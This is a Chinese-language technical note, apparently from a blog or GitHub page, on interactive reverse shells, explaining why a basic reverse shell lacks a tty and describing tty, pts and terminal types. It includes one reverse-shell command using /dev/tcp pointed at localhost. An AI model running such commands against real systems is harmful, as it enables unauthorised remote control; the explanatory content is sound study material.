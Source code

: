 常规反弹shell无法使用`vim`，`nano`这样的，说是，其实也不是。
```
bash -i </dev/tcp/127.0.0.1/9999
```
这样的shell其实是可以启用nano的，但是交互性并非那么好。这是因为这些命令是需要操纵`tty`的，也就是和终端交互。
通过`tty`命令再查一下这个反弹的bash，显示`不是一个tty`
![57446434.png](交互式反弹shell_files/57446434.png)
> 从用户态往下走，先说一下tty命令

## tty命令
`print the file name of the terminal connected to standard input`这是官方的简写，翻译过来就是输出标准输入的终端设备名
在正常使用，也就是桌面环境下，输出的是
```
$ tty
/dev/pts/0
```
> 每启动一个新的终端，则号码+1

而在非桌面环境下：
```
# tty
/dev/tty3
```
> 默认只有6个tty，其中一个会用来跑桌面

`tty`和`pts`在用户态下没有什么区别，他们都是`terminal`，但是在内核态，却是两个实现。这就要涉及`tty`和`pty`
> tty可切换的是tty1-tty6，ptmx有1个，pts有很多个

## 终端系统
> 信号处理，任务调度，不显示密码这些都是终端下实现的。

终端：
> 终端是提供输入输出环境的控制台，不做其他事情

* 物理终端：直接连接计算机的物理设备，也就是键盘，显示器的统称
* 串行终端：与机器串口对应，一个串口对应的一个串行终端，也对应物理终端
* 虚拟终端：一个计算机系统只有一套物理终端，但是通过伪终端切换，相当于有多套终端设备
* 控制终端：这是一个缓冲概念，为内核提供打印能力，即正在控制的终端，可以是串行终端，虚拟终端或者是伪终端
* 伪终端：虚拟终端和串行终端有限，但是伪终端可以不受限制
* 控制台终端：可以认为是一个计算机对应的一套键盘和显示器，所有的虚拟终端对应的都是同一控制台终端

## tty和tty0和tty1-6
控制终端`/dev/tty`，本身表示的是当前的`tty设备`，命令行下映射当前正在用的虚拟终端，图形化下则映射正在用的伪终端上。和`console`同级，一个串口对于物理设备来说，实际上会注册两次，一次是`tty`，一次就是`console`。
![41807105.png](交互式反弹shell_files/41807105.png)

